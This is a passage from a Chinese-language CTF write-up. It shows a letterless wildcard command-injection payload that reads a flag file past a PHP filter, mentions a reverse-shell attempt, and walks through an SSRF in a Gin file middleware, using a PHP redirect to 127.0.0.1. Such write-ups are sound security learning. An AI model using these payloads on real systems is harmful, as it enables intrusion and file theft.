 但取反的话，类似`~%8F%97%8F%96%91%99%90.()`在php5中是不可取的，因为其不支持这样调用动态函数的方法，那能考虑的只有通配符了。

```url
?code=?><?=`/???/??? /????.???`?> elf文件 没看见flag
```

然后看到一篇POST传输临时文件，然后匹配/tmp/php??????去执行反弹shell，但试了很多次都不行，最后...

```url
?code=?><?=`/???/??? /????`?> 又居然ok了淦
```

原来是送分题，是我想多了，不过临时文件的方法后续还可以学习学习。

### GoOSS

gin框架的ssrf,还比较有意思。

拿到代码审一下`fileMidderware`这个中间件有点奇怪。

```go
if fi.IsDir() {
		
		fmt.Println(c.Request.URL.String())

		if !strings.HasSuffix(c.Request.URL.String(), "/") {
			c.Redirect(302,c.Request.URL.String()+"/")
		} else {
			files := make([]string,0)
			l,_ := f.Readdir(0)
			for _,i := range l {
				files = append(files, i.Name())
			}

			c.JSON(http.StatusOK, gin.H{
				"files" :files,
			})
		}
	}
```

如果`url`参数后缀不是`/`的话，就会发生302跳转，这里我们加一个后缀为..即可。

但本地测试的适合一直没有发生302跳转：

![image-20210511223815266](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-11-image-20210511223815266.png)

带上`//`后成功了，才想起来`//`就是省略HTTP协议的写法。

![image-20210511223837295](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-11-image-20210511223837295.png)

再回到题目，我们直接可以通过这个特性访问内网80端口，传参readfile，但不知道为什么一直读不到flag...

然后换一个思路，在自己的vps上面传

```php
<?php
header("Location: http://127.0.0.1/index.php?file=/flag");
?>
```
